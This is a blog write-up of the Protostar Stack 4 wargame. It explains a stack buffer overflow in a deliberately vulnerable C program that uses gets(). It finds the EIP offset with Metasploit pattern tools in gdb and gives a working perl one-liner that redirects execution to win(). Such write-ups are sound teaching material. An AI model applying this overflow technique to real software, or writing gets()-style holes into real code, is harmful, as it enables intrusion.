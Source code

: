 ```yaml
---
title: "Exploit Exercises - Protostar Stack 4"
date: "2011-12-16T05:52:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-4.html"
 - "/2011/12/13/exploit-exercises-protostar-stack-4"
 - "/2011/12/15/exploit-exercises-protostar-stack-4"
 - "/2011/12/16/exploit-exercises-protostar-stack-4"
 - "/2011/12/22/exploit-exercises-protostar-stack-4"
---
```


With [this](http://exploit-exercises.com/protostar/stack4) challenge, I think things really start to get fun, and more real-world.  

<!-- more -->

We are provided with the following C program:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

This C app will simply read a value from user input, and store it in "buffer".  We then need to get it to somehow execute "win()". 

To get started, just like in the last challenge, I used objdump to find out where "win()" was located:

```
user@protostar:/opt/protostar/bin$ objdump -d stack4
...
080483f4 <win>:
...
```

Because we're going to need to modify the EIP of this program, we need to find where it is.  You may want to think that it would be immediately after the 64 bytes of the "buffer" array, however this is often times extra space due to null terminators, return values, and more.  So I use some tools from the [Metasploit Framework](http://metasploit.com) on another machine to find the EIP. 

First, I generate a unique string, using the pattern_create tool:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

Then I execute the vulnerable program in gdb, feeding it the unique string to the input:

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Now I know that the EIP contains the value 0x63413563.  I can go back to the Metasploit tools and run the pattern_offset tool to tell me the offset of the EIP:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

This tells me that unlike the 64 characters I would have thought, it's actually offset by 76 characters.  So now we just have to get the address of "win()" (0x080483f4) into the EIP at 76 bytes offset:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x76 . "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

There you have it.  We get the execution from "win()".
